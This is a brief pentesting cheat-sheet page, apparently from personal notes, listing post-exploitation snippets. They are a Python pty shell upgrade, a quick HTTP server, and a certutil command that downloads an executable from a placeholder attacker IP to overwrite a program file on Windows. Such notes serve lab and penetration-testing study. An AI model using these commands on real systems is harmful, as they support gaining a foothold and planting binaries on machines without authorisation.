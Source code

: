  ---
layout: default
title: Shell Interraction
nav_order: 2
has_children: false
parent: Pentesting
grand_parent: DylanGrl Writings
---

## Shell Interraction

### Interactive Shell 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Simple Web Server
```bash
sudo python3 -m http.server
```

### File Download
#### Windows CMD
```powershell
certutil -urlcache -f http://$YOUR_IP/Foxit.exe "C:\Program Files (x86)\Foxit Software\Foxit.exe"
```
